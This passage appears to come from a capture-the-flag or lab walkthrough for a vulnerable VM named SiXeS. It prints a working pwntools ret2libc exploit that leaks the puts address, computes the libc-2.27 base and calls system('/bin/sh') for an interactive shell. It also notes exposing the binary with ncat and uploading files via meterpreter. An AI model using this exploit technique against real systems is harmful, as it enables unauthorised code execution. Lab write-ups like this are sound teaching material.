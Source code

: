 ~~~py
payload = [
	b"A" * offset,
	rop.chain()
]

payload = b"".join(payload)
p.sendline(payload)

puts = u64(p.recvuntil("\n").rstrip().ljust(8, b"\x00"))

log.info(f"puts found at {hex(puts)}")

libc = ELF("libc-2.27.so")
libc.address = puts - libc.symbols["puts"]
log.info(f"libc base address determined {hex(libc.address)}")

rop = ROP(libc)
rop.call("puts", [ next(libc.search(b"/bin/sh\x00")) ])
rop.call("system", [ next(libc.search(b"/bin/sh\x00")) ])
rop.call("exit")

payload = [
	b"A" * offset,
	rop.chain()
]
payload = b"".join(payload)
p.sendline(payload)

p.interactive()
~~~

Just a few remarks:
* We determine our payload needs to have a 280 Bytes offset
* We also leak the address of the `puts` function
* But then we need to jump back to the `main` function again
* The library which is used on the target SiXeS VM is `libc-2.27.so`. 

  We see that with the following find command
  ~~~
  www-data@sixes:/var/www/html/img$ find / -name "libc*.so" 2>/dev/null
  [...]
  /lib/x86_64-linux-gnu/libc-2.27.so
  ~~~
  This library needs to be downloaded and referenced to determine the correct offset for the target system

And last but not least: in contrast to the CTF challenge which John is facing, our binary is not reachable remotly via a specific port. Theoretically we could also adapt our python script to run locally on the binary on SiXeS VM. Python3 is installed on there, but pwntools are missing. Since we don't have admin privileges yet, we can't easily install them. So we have to come up with an idea to make it available remotely.

This can be done with `ncat`, but we also have to upload it, together with a required library, via meterpreter. 
